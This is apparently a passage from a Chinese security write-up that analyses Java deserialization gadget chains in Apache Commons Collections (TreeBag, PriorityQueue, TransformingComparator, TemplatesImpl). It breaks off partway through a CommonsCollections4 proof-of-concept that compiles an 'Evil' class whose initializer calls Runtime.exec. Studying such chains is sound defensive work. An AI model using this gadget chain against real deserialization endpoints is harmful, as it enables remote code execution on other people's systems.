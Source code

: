 ![undefined](https://p0.ssl.qhimg.com/t01a959ecb3c36a35f6.png "undefined")

![undefined](https://p2.ssl.qhimg.com/t01d52fc8455e823834.png "undefined")

在对`TreeBag`反序列化时，会将反序列化出来的`Comparator`对象交给`TreeMap`实例化，并调用父类的`doReadObject`方法进行处理。

![undefined](https://p0.ssl.qhimg.com/t012cd0a7cf680fbf99.png "undefined")

在`doReadObject`方法中会向`TreeMap`中`put`数据。

![undefined](https://p4.ssl.qhimg.com/t0197333442de4fc580.png "undefined")

对于这种有序的储存数据的集合，反序列化数据时一定会对其进行排序动作，而`TreeBag`则是依赖了`TreeMap`在`put`数据时会调用`compare`进行排序的特点来实现数据顺序的保存。

![undefined](https://p3.ssl.qhimg.com/t01710673a1a5b378ba.png "undefined")

而在`compare`方法中调用了`comparator`进行比较，以使用`TransformingComparator`触发后续的逻辑。

![undefined](https://p3.ssl.qhimg.com/t0193c90cdd7d111775.png "undefined")

## Commons-Collections4 分析
### POC-1
该利用链沿用了`CommmonsCollections3`链利用`TrAXFilter`类的构造函数去触发`TemplatesImpl#newTransformer`加载恶意字节码的方法，沿用了`CommonsCollections2`链通过`PriorityQueue`触发`TransformingComparator.compare()`进而调用传入的`transformer`对象的`transform`方法。

```java
package CommonsCollections4;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 10:55 上午
 */
public class CommmonsCollections4PriorityQueue {

    public static void CC4() throws CannotCompileException, IOException, NoSuchFieldException, IllegalAccessException, ClassNotFoundException, NotFoundException {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = pool.makeClass("Evil");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        String shell = "java.lang.Runtime.getRuntime().exec(\"open -a /System/Applications/Calculator.app\");";
        ctClass.makeClassInitializer().insertBefore(shell);

        byte[] shellCode = ctClass.toBytecode();
        byte[][] targetCode = new byte[][]{shellCode};
```